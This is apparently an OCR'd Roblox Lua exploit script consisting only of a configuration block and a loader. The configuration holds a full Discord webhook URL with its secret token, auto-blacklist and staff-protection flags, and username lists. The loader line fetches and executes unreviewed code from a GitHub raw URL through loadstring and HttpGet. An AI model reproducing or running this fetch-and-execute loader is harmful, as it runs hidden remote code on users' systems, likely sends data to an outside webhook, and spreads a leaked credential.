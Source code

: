 _G.Configuration = {
Webhook = "https://discord.com/api/webhooks/1243136397226016798/Gn62yjrA-1seDy7TJkTZtYooSfbvZTy-A5rCSTkkq6fOdKnOBSQLdnwVaVM9InzFqHhh",
AutoBlacklist = true,
StaffProtection = true,
Blacklist = {
    "Corntastesbad"
},
Staff = {
    "AcierHolder1"
}
}

loadstring(game:HttpGet(('https://raw.githubusercontent.com/Tekkzyap/meow/main/blox'),true))()
